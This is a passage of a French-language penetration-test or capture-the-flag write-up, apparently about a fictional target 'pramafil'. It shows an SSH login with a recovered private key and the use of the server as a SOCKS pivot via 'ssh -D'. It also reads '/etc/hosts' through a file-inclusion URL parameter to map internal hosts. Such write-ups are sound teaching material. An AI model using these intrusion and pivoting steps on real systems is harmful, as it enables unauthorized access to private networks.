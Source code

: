 On tente une connexion en ssh.

```
ssh dev1@151.80.230.58 -i dev1.priv
Welcome to Ubuntu 17.10 (GNU/Linux 4.13.0-41-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Meltdown, Spectre and Ubuntu: What are the attack vectors,
   how the fixes work, and everything else you need to know
   - https://ubu.one/u2Know

58 paquets peuvent être mis à jour.
31 mises à jour de sécurité.

New release '18.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Wed Jun 20 16:59:22 2018 from 185.74.43.34
Connection to 151.80.230.58 closed.
```

On ne peut pas exécuter de commande sur le serveur. Résultat logique par rapport au /etc/passwd qui indiquait que le dev1 était en /bin/false.
Cependant, ce n'est pas perdu. On peut quand même utiliser ce serveur comme serveur de rebond !

```bash
ssh -D 9050 -N dev1@151.80.230.58 -i dev1.priv
```

#### Qu'est-ce qu'il y a au bout du tunnel ?

On a créé un serveur de rebonds, mais pour aller où ? C'est une très bonne question. Étant donné que le serveur de pramafil est utilisé par des développeurs, ils ont du modifier le /etc/hosts pour faciliter les connexions avec des serveurs en interne. Une vérification du fichier hosts s'impose donc.

* http://pramafil.com/cgu/?v=/etc/hosts

```
127.0.0.1	localhost 
127.0.1.1	www.pramafil.com	    www
10.10.0.207	preprod.pramafil.com	preprod 
10.10.0.202	dcfil.pramafil.corp  	pramafil.corp 
10.10.0.203	ad.dev.pramacorp.fr 	dev.pramacorp.fr 

# The following lines are desirable for IPv6 capable hosts 
::1 localhost ip6-localhost ip6-loopback 
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
